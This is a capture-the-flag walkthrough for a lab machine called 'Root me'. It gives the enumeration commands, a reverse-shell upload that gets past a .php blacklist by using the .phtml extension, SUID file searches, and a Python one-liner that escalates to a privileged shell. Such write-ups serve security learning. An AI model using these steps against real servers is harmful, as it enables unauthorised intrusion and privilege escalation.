




# Root me

## Enumeration

```bash
export IP=10.10.2.228
nmap -A -v $IP -oN scans/nmap.log
```


### Enumerate web server with gobuster
```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -X php,txt,html,js
```


We can upload files to **/panel** and check them in **/uploads** <br>

Use php-reverse-shell.php

```bash
git clone https://github.com/ivan-sincek/php-reverse-shell.git
```
or

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

The website has a server side filter apparently using an extension blacklist and **.php** is banned... BUT ! **phtml** is not, fool the content filtering with this extension and get a shell by calling it from <url>http://10.10.2.228/uploads</url> <br>


### Privilege Escalation

```bash
find / -perm -u=s  2>/dev/null
find / -perm -g=s  2>/dev/null
```


From gfobins `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`


